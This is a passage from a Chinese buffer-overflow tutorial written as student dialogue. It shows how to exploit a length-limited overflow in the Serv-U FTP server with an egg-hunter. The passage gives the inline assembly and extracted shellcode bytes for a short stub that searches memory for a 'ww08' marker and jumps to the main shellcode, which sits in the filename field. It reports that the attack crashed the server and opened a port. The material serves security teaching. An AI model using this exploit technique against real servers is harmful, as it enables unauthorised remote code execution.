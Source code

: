 “是啊，我们写的 ShellCode 都要有 1000 字节！”

“那怎么办呢？”大家想啊想，“可以换一个短的，但 294 个字节也太短了。”

“莫非？放入我们的搜索代码？”宇强说。

“对！我们在有长度限制的时区中放入我们短小的搜索代码，而把 ShellCode 放在后面的那个文件名中！”

“我们获得控制权后就先执行搜索代码，它在内存中搜索 ww08 标志，搜索到后，才跳过去执行真正的 ShellCode。”大家明白了。

“非常正确，其利用格式如图 5－29。”

![](img/Q 版缓冲区溢出教程 173666.jpg)　　

“而第一部分时区放入我们的搜索 ShellCode，功能只是在内存中找标志，找到后跳过去执行。其构造如图 5－30。”

![](img/Q 版缓冲区溢出教程 173728.jpg)　　

“第二部分文件名放入查找标志和真正的 ShellCode，其构造如图 5－31。”

![](img/Q 版缓冲区溢出教程 173775.jpg)

“我们就按照这样的思路来利用吧！搜索 ww08 标志的汇编前面讲过，如下：”

```
__asm
{
　　 mov ebx, esp //从 esp 开始搜索
　　 mov eax, 0x77773037; //eax = ww07
　　 inc eax //刚才是 ww07，加 1 变成 ww08，免得搜索成自己
　　loop1:
　　 inc ebx 
　　 cmp [ebx],eax //比较是否为 ww08
　　 jne loop1
　　 inc ebx
　　 inc ebx
　　 inc ebx
　　 inc ebx
　　 call ebx //找到 ww08 标志，跳过去执行
} 
```

“在 VC 中嵌入汇编，然后调试提取，得到搜索代码的 ShellCode。”

```
char search[] =
　　"\x8B\xDC\xB8\x37\x30\x77\x77\x40\x43\x39\x03\x75\xFB\x43\x43\x43"
　　"\x43\xFF\xD3" 
```

“够短吧！我们把原来构造程序的 ShellCode 换成这个搜索 ShellCode 的 search。”

“然后在真正 ShellCode 的前方加入我们的标志‘ww08’，放在空格后的文件名第二部分，这样就完成了我们的构造，得到了程序 ServUtest.cpp（光盘有收录）。”

“好咧！我们测试一下吧！”同学们急切的说，“我们把精心构造的代码发送过去，对方 ServU 挂掉，但成功执行了我们的 ShellCode，打开了端口，如图 5－32。”

![](img/Q 版缓冲区溢出教程 174444.jpg)　　
